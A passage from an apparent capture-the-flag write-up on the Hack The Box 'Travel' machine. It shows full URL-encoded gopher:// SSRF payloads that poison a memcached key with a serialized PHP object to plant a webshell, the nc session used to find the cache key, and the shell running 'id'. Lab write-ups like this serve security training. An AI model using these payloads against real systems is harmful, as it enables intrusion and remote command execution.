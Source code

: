 We'll need to swap out "SpyD3r" for the key name that the website is caching www.travel.htb/newsfeed/customfeed.xml under. In order to do that, we can inject our own local webserver with the payload, and see what it enters into memcached. 

We'll visit the following link to inject the payload:

http://127.0.0.1/awesome-rss/?custom_feed_url=gopher://LOCALHOST:11211/_%0d%0aset%20SpyD3r%204%200%20100%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:7:%22poc.php%22%3Bs:4:%22data%22%3Bs:30:%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%22%3B%7D%0d%0a

```
nc -nv 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
stats items
STAT items:16:number 1
STAT items:16:age 13
STAT items:16:evicted 0
STAT items:16:evicted_nonzero 0
STAT items:16:evicted_time 0
STAT items:16:outofmemory 0
STAT items:16:tailrepairs 0
STAT items:16:reclaimed 0
STAT items:16:expired_unfetched 0
STAT items:16:evicted_unfetched 0
STAT items:16:crawler_reclaimed 0
STAT items:16:crawler_items_checked 0
STAT items:16:lrutail_reflocked 0
END
stats cachedump 16 1
ITEM xct_4e5612ba079c530a6b1f148c0b352241 [2736 b; 1589998736 s]
END
```

Now that we have the key name, we can swap that out in our payload, and use it on the victim!

We'll visit the link with our updated payload:

http://blog.travel.htb/awesome-rss/?custom_feed_url=gopher://LOCALHOST:11211/_%0d%0aset%20xct_4e5612ba079c530a6b1f148c0b352241%204%200%20100%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:7:%22poc.php%22%3Bs:4:%22data%22%3Bs:30:%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%22%3B%7D%0d%0a

Now, we just need to visit http://blog.travel.htb/awesome-rss/ to trigger it!

## Finding Our Webshell

If we look at the TemplateHelper function, it's writing to the /wp-content/themes/twentytwenty/logs/ directory, which means our shell will be at http://blog.travel.htb/WordPress/wp-content/themes/twentytwenty/logs/poc.php

http://blog.travel.htb/wp-content/themes/twentytwenty/logs/poc.php?cmd=id:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```
